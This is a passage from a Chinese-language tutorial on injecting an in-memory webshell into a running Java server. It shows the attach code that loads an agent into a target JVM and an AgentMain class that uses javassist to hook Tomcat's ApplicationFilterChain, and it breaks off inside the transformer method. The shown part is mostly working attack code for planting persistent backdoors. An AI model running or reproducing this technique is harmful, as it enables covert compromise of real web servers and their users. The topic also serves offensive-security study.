```java.lang.UnsatisfiedLinkError: sun.tools.attach.LinuxVirtualMachine.isLinuxThreads()Z```
	                    loadAgent.invoke(vm, new Object[]{path});
	                    java.lang.reflect.Method detach = MyVirtualMachine.getDeclaredMethod("detach", null);
	                    detach.invoke(vm, null);
	                    break;
	                }
	            }
	        } catch (Exception e) {
	            e.printStackTrace();
	        }
	    }
	}

![](images/10.jpg)


其中这一行 ```if (name.contains("com.example.demo.DemoApplication")) {``` 要根据实际你要注入的进程名替换。

## 内存马注入

由于实际环境中我们通常遇到的都是已经启动着的，所以 premain 那种方法不合适内存马注入，所以我们这里利用 agentmain 方法来尝试注入我们的内存马

利用 insertBefore ，将其插入到前面，从而减少对原程序的功能破坏：

AgentMain.java

	import javassist.*;	
	import java.lang.instrument.ClassFileTransformer;
	import java.lang.instrument.IllegalClassFormatException;
	import java.lang.instrument.Instrumentation;
	import java.security.ProtectionDomain;
	
	
	public class AgentMain {
	    /*
	    public static void premain(String agentArgs, Instrumentation inst) {
	        agentmain(agentArgs, inst);
	    }
	    */
	
	    public static final String ClassName = "org.apache.catalina.core.ApplicationFilterChain";
	
	    public static void agentmain(String agentArgs, Instrumentation ins) {
	        ins.addTransformer(new DefineTransformer(), true);
	        Class[] classes = ins.getAllLoadedClasses();
	        for (Class clas : classes) {
	            if (clas.getName().equals(ClassName)) {
	                try {
	                    ins.retransformClasses(new Class[]{clas});    //retransformClasses
	                } catch (Exception e) {
	                    e.printStackTrace();
	                }
	            }
	        }
	    }
	
	    public static class DefineTransformer implements ClassFileTransformer {
	        @Override
	        public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) throws IllegalClassFormatException {
	            className = className.replace("/", ".");
	            if (className.equals(ClassName)) {
	                System.out.println("Find the Inject Class: " + ClassName);
```
